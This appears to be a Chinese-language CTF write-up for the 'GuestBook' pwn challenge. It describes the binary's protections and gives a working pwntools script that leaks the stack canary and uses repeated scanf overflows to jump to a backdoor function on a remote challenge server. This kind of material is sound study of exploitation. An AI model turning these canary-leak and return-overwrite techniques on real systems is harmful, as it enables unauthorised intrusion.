 # GuestBook

From CBCTF x DASCTF

## 文件分析

下载`GuestBook`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 逆向

name上就是canary，首先填满name使得canary值泄露；  
还要注意输入时使用的是scanf，虽然可以栈溢出，但是遇到空字符会截断，
需要多次溢出，实现跳转到`magic`后门函数

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 27847)

# payload 1, leak canary
sh.sendline(b'0'*23 + b'.')

sh.recvuntil(b'.\n') # skip
canary = u64(b'\0' + sh.recvuntil(b'!')[:7])
magicAddr = 0x4012c3

# payload 2, scanf 3 times to return to magic
sh.sendline(b'3')
sh.sendline(b'0'*0xa8 + p64(magicAddr)) # call magic, keep rsp balance
sh.sendline(b'0'*0x79 + p64(canary)[1:]) # fill canary except for the first 0x00
sh.sendline(b'0'*0x58) # fill canary 1st byte with 0x00

sh.interactive()
```

Done.
